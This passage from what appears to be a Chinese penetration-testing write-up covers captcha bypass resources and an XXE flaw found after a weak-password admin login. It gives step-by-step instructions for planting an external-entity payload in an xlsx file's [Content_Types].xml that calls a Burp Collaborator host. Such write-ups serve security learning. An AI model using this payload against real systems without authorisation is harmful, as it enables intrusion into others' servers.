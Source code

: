 

也可以自己开发训练验证码识别接口，这个没有深究过，大佬们可自行尝试



### 3.2 验证码绕过

验证码有时候存在缺陷可能导致被绕过

先知有大佬文章详细的说了验证码的绕过姿势，这里就不照搬了

放一下连接：

图片验证码的测试思路：https://mp.weixin.qq.com/s/wZ63y3aBN2df60QeOIiTqg

[红日安全]Web安全Day14 - 验证码实战攻防 :https://xz.aliyun.com/t/6971

逻辑让我崩溃之验证码姿势分享 : https://xz.aliyun.com/t/4533



# 弱口令登陆后的xxe

回到一开始的项目，弱口令登陆后台之后，第一步当然是找上传点，找到一个上传excel文件上传的。抓包进行任意文件上传测试，发现上传不会返回路径，只解析文件的内容并返回到页面上，估计服务器都没有保存上传的文件，任意文件上传不存在。

但是发现服务器对文件存在解析，而且还是xlsx文件，xlsx文件主要由xml文件构成，解析过程中可能会存在xxe漏洞

制作poc文件进行尝试：

```shell
更改test.xlsx文件后缀位test.zip
unzip test.zip

vim '[Content_Types].xml'

添加paylaod:
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://mkazyh916th6c7sw7qmgbxv87zdp1e.burpcollaborator.net"> ]>
<foo>&xxe;</foo>

```

![4.1](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/渗透测试/记一次实战xxe及弱口令爆破学习/4.1.png)



重新压缩回去：

`zip -r test.xlsx  ./*`

重新上传文件，发现接收到了服务器的请求，确定漏洞存在
